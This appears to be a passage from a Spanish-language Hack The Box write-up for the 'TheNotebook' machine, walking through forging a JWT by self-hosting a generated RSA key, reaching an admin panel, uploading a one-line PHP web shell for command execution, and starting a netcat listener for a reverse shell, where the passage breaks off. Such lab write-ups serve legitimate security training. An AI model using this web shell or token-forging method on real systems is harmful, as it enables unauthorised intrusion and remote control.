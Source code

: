 2. Me creo una la clave privada usando "**openssl**".
```bash
openssl genrsa -out privKey.key 2400
```

3. Copiamos todo el contenido de la clave privada, para pegarlo en la **signature** del **JWT**.
```bash
cat privKey.key | xclip -sel clip
```

4. Pegamos el contenido de la clave en la **signature**.


Una vez hecho ésto, vemos qué se nos genará un nuevo **JWT**
![](/assets/images/htb-writeup-thenotebook/Pasted image 20231130171835.png)

5. Nos montamos un servidor en Python en la ubicación de la clave privada qué creamos con "**openssl**" para qué aplique la comparativa y sean correctas ambas claves privadas.

```bash
python3 -m http.server 7070
```

6. Copiamos el nuevo **JWT** que nos generó **jwt.io** y lo usamos como un nuevo JWT para por último recargar la página.

Vemos en consola qué obtiene la clave privada desde el servidor python.
![](/assets/images/htb-writeup-thenotebook/Pasted image 20231130173201.png)

Viendo así un pestaña qué es un panel administrativo:
![](/assets/images/htb-writeup-thenotebook/Pasted image 20231130172504.png)

Podemos subir archivo, así que se me ocurre subir un **php** malicioso para controlar un **RCE** desde la URL por GET.
![](/assets/images/htb-writeup-thenotebook/Pasted image 20231130173001.png)

```bash
touch cmd.php
```
que tendrá como contenido:
```php
<?php system($_GET['cmd']); ?>
```


He logrado subirlo éxitosamente.
![](/assets/images/htb-writeup-thenotebook/Pasted image 20231130173532.png)

así que opto por verlo, & aparentemente está interpretando el PHP, lo corrobo con un "**whoami**".
![](/assets/images/htb-writeup-thenotebook/Pasted image 20231130173602.png)


Viendo que funcionó, me entablaré una **Reverse Shell**, sino hay reglas "**iptables**" de por medio lo lograré.

1. Nos ponemos en escucha.
```bash
nc -nlvp PORT
```
